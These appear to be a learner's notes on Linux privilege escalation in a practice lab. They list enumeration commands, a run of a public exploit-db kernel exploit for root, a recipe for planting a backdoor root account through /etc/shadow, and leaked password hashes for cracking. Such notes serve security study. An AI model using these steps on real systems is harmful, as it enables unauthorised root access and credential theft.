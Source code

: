 > can use command `cat /etc/passwd | grep home | cut -d ':' -f 1` to chop out a list of all the usernames (split each string by ":", then pull first item for all users that have a home directory (most likely "real" users)

`history` - has the user done anything of note or interesting? Plaintext passwords over cli?
`ifconfig` - is the box connected to another network? Pivot option? Pivot? PIVOT?
`ip route` - see which networks exist
```
default via 10.10.0.1 dev eth0
10.10.0.0/16 dev eth0  proto kernel  scope link  src 10.10.213.207
169.254.0.0/16 dev eth0  scope link  metric 1000
```

`netstat`
* `-a` all listening and established connections
* `-t` TCP only
* `-u` UDP only
* `-l` listening only
* `-s` usage stastics
* `-p` include service process ids (PIDs)
* `-i` interface stastics
* `-n` don't resolve names (ips only)
* `-o` show timers

`find` - search for specific or interesting files, requires a directory and some search criteria
* add `2>/dev/null` to redirect errors to null (discarding)
* numeric filters (like `-size` and `-atime` etc can have `+` and `-` before the number to filter greater and less than
* `-writable`, `-perm 222`, `-o w` finds that this user can modify (each flavor can get slightly different results

`python -i`, `python3 -i`, `php -v`, `node -v`, etc - find versions of programming and scripting tools


## Escalation
found exploit at [exploit-db](https://www.exploit-db.com/exploits/37292)
downloaded to local, uploaded to target
compiled with gcc
ran
got root!

Dig out setuid stuff with:
`find / -perm -04000 -type f -la 2>/dev/null`

If able to modify `/etc/shadow`:
create user
generate password and hash with `openssl passwd -1 -salt WAT Password1`
add that hash after `me:` and the after the hash add `:0:0:root:/root:/bin/bash`
now you can log on with user `me` and password `Password1`

## Password crack
```
$ cat /etc/passwd | grep home
ubuntu:x:1000:1000:Ubuntu:/home/ubuntu:/bin/bash
gerryconway:x:1001:1001::/home/gerryconway:/bin/sh
user2:x:1002:1002::/home/user2:/bin/sh
karen:x:1003:1003::/home/karen:/bin/sh
```
Exerpt from /etc/shadow:
```
ubuntu:!:18796:0:99999:7:::
gerryconway:$6$vgzgxM3ybTlB.wkV$48YDY7qQnp4purOJ19mxfMOwKt.H2LaWKPu0zKlWKaUMG1N7weVzqobp65RxlMIZ/NirxeZdOJMEOp3ofE.RT/:18796:0:99999:7:::
user2:$6$m6VmzKTbzCD/.I10$cKOvZZ8/rsYwHd.pE099ZRwM686p/Ep13h7pFMBCG4t7IukRqc/fXlA1gHXh9F2CbwmD4Epi1Wgh.Cl.VV1mb/:18796:0:99999:7:::
```